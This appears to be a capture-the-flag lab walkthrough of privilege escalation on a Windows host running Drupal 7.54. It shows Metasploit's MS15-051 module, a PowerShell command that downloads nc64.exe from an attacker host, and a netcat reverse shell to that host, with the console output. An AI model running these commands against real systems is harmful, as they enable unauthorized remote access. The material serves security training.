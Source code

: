 ```
msf exploit(windows/local/ms15_051_client_copy_image) > set session 1
session => 1

msf exploit(windows/local/ms15_051_client_copy_image) > set target 1
target => 1
msf exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.32
LHOST => 10.10.14.32

msf exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.32:4444 
[*] Launching notepad to host the exploit...
[+] Process 592 launched.
[*] Reflectively injecting the exploit DLL into 592...
[*] Injecting exploit into 592...
[*] Exploit injected. Injecting payload into 592...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.

```

### Upload NC64.exe, get a 64bit shell. then run msf_shell.exe

https://github.com/phackt/pentest/tree/master/privesc/windows
https://github.com/phackt/pentest/raw/master/privesc/windows/nc64.exe

(new-object System.Net.WebClient).DownloadFile('http://10.10.14.32:8000/nc64.exe', 'nc64.exe') 

PS C:\inetpub\drupal-7.54> .\nc64.exe 10.10.14.32 4447 -e cmd

Got a 64 bit cmd
```
# nc -lvp 4447
listening on [any] 4447 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.9] 49472
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

07/09/2019  05:33 ��    <DIR>          .
07/09/2019  05:33 ��    <DIR>          ..
19/03/2017  01:42 ��               317 .editorconfig
19/03/2017  01:42 ��               174 .gitignore
19/03/2017  01:42 ��             5.969 .htaccess
19/03/2017  01:42 ��             6.604 authorize.php
07/09/2019  02:37 ��                12 bob.txt
19/03/2017  01:42 ��           110.781 CHANGELOG.txt
19/03/2017  01:42 ��             1.481 COPYRIGHT.txt
19/03/2017  01:42 ��               720 cron.php
19/03/2017  01:43 ��    <DIR>          includes
19/03/2017  01:42 ��               529 index.php
19/03/2017  01:42 ��             1.717 INSTALL.mysql.txt
19/03/2017  01:42 ��             1.874 INSTALL.pgsql.txt
19/03/2017  01:42 ��               703 install.php
19/03/2017  01:42 ��             1.298 INSTALL.sqlite.txt
19/03/2017  01:42 ��            17.995 INSTALL.txt
```
